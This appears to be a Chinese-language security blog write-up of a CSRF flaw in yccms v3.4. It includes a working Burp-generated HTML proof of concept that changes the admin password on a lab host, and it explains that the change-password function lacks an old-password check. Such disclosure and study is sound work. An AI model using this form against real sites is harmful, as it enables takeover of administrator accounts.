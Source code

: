 ```yaml
---
title: yccms v3.4 csrf漏洞
date: 2021-04-17 16:31:22
cover: https://i.loli.net/2021/04/17/Tnoa3sSO2prCYb7.png
---
```


## 漏洞环境

yccms v3.4

## 漏洞复现

搭建好环境登陆后台

[http://192.168.0.21/yccms_v3.4/admin](http://192.168.0.21/yccms_v3.4/admin)

默认密码admin,admin

登陆成功后执行下面的poc就会成功将密码修改为admin2，后台登陆状态会强制下

```php
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->

<body>
    <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.0.21/yccms_v3.4/admin/?a=admin&m=update" method="POST">
        <input type="hidden" name="username" value="admin" />
        <input type="hidden" name="password" value="admin2" />
        <input type="hidden" name="notpassword" value="admin2" />
        <input type="hidden" name="send" value="ä&#191;&#174;æ&#148;&#185;å&#175;&#134;ç&#160;&#129;" />
        <input type="submit" value="Submit request" />
    </form>
</body>

</html>
```

## 漏洞原理

先找到根目录下控制器文件夹C:\phpstudy_pro\WWW\yccms_v3.4\controller

可以知道admin路径对应的是AdminAction控制器

![yccms%20v3%204%20csrf%E6%BC%8F%E6%B4%9E%2007680c110529461f93250d4ede511790/Untitled.png](https://i.loli.net/2021/04/17/soy8E1CfXVMe6hD.png)

接下来看下AdminAction.class.php，可以看到修改密码的函数 

![yccms%20v3%204%20csrf%E6%BC%8F%E6%B4%9E%2007680c110529461f93250d4ede511790/Untitled%201.png](https://i.loli.net/2021/04/17/OSWRVYmHaAhl4T3.png)

我们在后台找到修改密码的地方进行抓包对比

a对应action,m对应method，再通过post请求发送username、password、notpassword、send这几个参数就可以发送修改密码的请求

可以看到这里并没有要求输入旧密码，因此可以生成个csrf，测试有没有csrf漏洞

![yccms%20v3%204%20csrf%E6%BC%8F%E6%B4%9E%2007680c110529461f93250d4ede511790/Untitled%202.png](https://i.loli.net/2021/04/17/aMwkANo3pntsDmi.png)

登陆后台后，点击生成的poc文件，密码会被修改